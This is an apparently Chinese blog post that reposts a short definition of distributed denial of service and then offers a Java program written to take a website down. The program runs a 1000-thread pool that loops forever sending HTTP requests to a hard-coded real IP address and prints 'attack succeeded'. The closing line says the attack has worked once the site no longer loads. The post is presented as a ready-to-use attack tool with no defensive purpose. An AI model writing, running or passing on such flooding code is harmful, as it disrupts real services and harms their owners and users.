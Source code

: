 ```yaml
---
title: DDoS攻击-Java实现
tags:
  - Android
toc: false
abbrlink: 27312
date: 2018-08-16 14:54:00
categories:
description:
---
```

![](https://ws1.sinaimg.cn/large/e3bf8736ly1fypz0k52q6j22i01o01kz.jpg)

<!--more-->
### 转载

> 分布式拒绝服务(DDoS:Distributed Denial of Service)攻击指借助于客户/服务器技术，将多个计算机联合起来作为攻击平台，对一个或多个目标发动DDoS攻击，从而成倍地提高拒绝服务攻击的威力。通常，攻击者使用一个偷窃帐号将DDoS主控程序安装在一个计算机上，在一个设定的时间主控程序将与大量代理程序通讯，代理程序已经被安装在网络上的许多计算机上。代理程序收到指令时就发动攻击。利用客户/服务器技术，主控程序能在几秒钟内激活成百上千次代理程序的运行。
>

```java
public class DDos {

    public static void main(String[] args) {

        ExecutorService es = Executors.newFixedThreadPool(1000);

        Mythread mythread = new Mythread();

        Thread thread = new Thread(mythread);

        for (int i = 0; i < 10000; i++) {

            es.execute(thread);

        }

    }

}

class Mythread implements Runnable {

    public void run() {

        while (true) {

            try {

                URL url = new URL("http://221.232.148.51/guojibu/");

                URLConnection conn = url.openConnection();

                System.out.println("发包成功！");

                BufferedInputStream bis = new BufferedInputStream(

                        conn.getInputStream());

                byte[] bytes = new byte[1024];

                int len = -1;

                StringBuffer sb = new StringBuffer();


                if (bis != null) {

                    if ((len = bis.read()) != -1) {

                        sb.append(new String(bytes, 0, len));

                        System.out.println("攻击成功！");

                        bis.close();

                    }

                }

            } catch (MalformedURLException e) {

                // TODO Auto-generated catch block
                e.printStackTrace();

            } catch (IOException e) {

                // TODO Auto-generated catch block
                e.printStackTrace();

            }
        }
    }
}
```

网站打不开就是攻击成功了

 
